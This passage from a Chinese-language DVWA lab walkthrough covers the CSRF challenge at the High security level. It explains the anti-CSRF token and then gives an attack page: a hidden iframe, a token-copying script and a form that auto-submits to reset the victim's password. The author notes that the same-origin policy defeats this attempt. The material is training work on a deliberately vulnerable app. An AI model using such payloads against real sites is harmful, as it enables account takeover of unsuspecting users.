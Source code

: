 ```php
		$html .= "<pre>Password Changed.</pre>";
	}
	else {
		// Issue with passwords matching
		$html .= "<pre>Passwords did not match.</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

可以看到,High 级别的代码加入了 Anti-CSRF token 机制,用户每次访问改密页面时,服务器会返回一个随机的 token,向服务器发起请求时,需要提交 token 参数,而服务器在收到请求时,会优先检查 token,只有 token 正确,才会处理客户端的请求.

**漏洞利用**

要绕过 High 级别的反 CSRF 机制,关键是要获取 token,要利用受害者的 cookie 去修改密码的页面获取关键的 token.

试着去构造一个攻击页面,将其放置在攻击者的服务器,引诱受害者访问,从而完成 CSRF 攻击,下面是代码.

```html
<script type="text/javascript">
	function attack()
	{
	document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
	document.getElementById("transfer").submit();
	}
</script>

<iframe src="http://<IP地址!!!>/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
</iframe>

<body onload="attack()">
<form method="GET" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/csrf">
	<input type="hidden" name="password_new" value="password">
	<input type="hidden" name="password_conf" value="password">
	<input type="hidden" name="user_token" value="">
	<input type="hidden" name="Change" value="Change">
</form>

</body>
```

攻击思路是当受害者点击进入这个页面,脚本会通过一个看不见框架偷偷访问修改密码的页面,获取页面中的 token,并向服务器发送改密请求,以完成 CSRF 攻击.

然而理想与现实的差距是巨大的,这里牵扯到了跨域问题,而现在的浏览器是不允许跨域请求的.这里简单解释下跨域,我们的框架 iframe 访问的地址是 http://<dvwa靶机IP>/dvwa/vulnerabilities/csrf ,位于服务器 A 上,而我们的攻击页面位于黑客服务器 B 上,两者的域名不同,域名 B 下的所有页面都不允许主动获取域名 A 下的页面内容,除非域名 A 下的页面主动发送信息给域名 B 的页面,所以我们的攻击脚本是不可能取到改密界面中的 user_token.
